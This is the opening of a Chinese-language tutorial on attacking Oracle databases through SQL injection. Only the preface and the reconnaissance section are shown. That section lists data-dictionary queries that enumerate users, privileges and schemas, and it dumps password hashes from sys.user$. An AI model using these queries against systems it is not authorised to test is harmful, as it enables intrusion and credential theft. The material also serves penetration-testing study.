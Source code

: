 # Hacking Oracle with Sql Injection

0x0 前言 

0x1 信息刺探  

0x2 权限提升  

0x3 执行命令  

0x4 文件系统  

0x5 访问网络  

0x6 总结 

0x7 参考文献

**0x0 前言**

本文主要讨论如何通过一个sql inject 来最大限度的取得各种信息和权限，文章绝大多数技术都是前人提出，膜拜各位牛人 的同时，也非常感谢牛人们的分享，上帝与你们同在 ：） 本文仅起着总结作用，测试数据库分别为：Oracle Database 10g Enterprise Edition Release 10.2.0.1.0 和Oracle Database 11g Enterprise Edition Release 11.2.0.1.0 ，默认是 Oracle Database 10g Enterprise Edition Release 10.2.0.1.0最后，倘若您有更好的见解或者方法，请不吝赐教

**0x1 信息刺探**

通常刷到一个sql inject 之后，一般步骤都是查找敏感信息，oracle自带了很多数据字典，可以很方便我们查找信息

```
-- list version   select banner from v$version where rownum=1 ; -- oracle version

-- list user   select user from dual; -- current user   select username from user_users; -- current user   select username from all_users; -- all user , the current user can see...   select username from dba_users; -- all user , need pris

-- list role   select role from session_roles; -- current role

-- list privs   select privilege from user_sys_privs; -- privs the current user has   select privilege from role_sys_privs; -- privs the current role has   select privilege from session_privs; -- the all privs that current user has = user_sys_privs + role_sys_privs   select * from dba_sys_privs; -- all user's privs , need privs

-- list password hash   select name, password, astatus from sys.user$; -- password hash <=10g , need privs   select name, password, spare4 from sys.user$; -- password has 11g , need privs

-- list database   select global_name from global_name; -- current database   select sys.database_name from dual; -- current database   select name from v$database; -- current database name , need privs   select instance_name from v$instance; -- current database name , need privs

-- list schemas   select distinct owner from all_tables; -- all schema

-- list tables   select table_name from all_tables where owner='xxx'; -- all table name

-- list columns   select owner,table_name,column_name from all_tab_columns where table_name='xxx';   select owner,table_name,column_name from all_tab_cols where table_name='xxx';

```
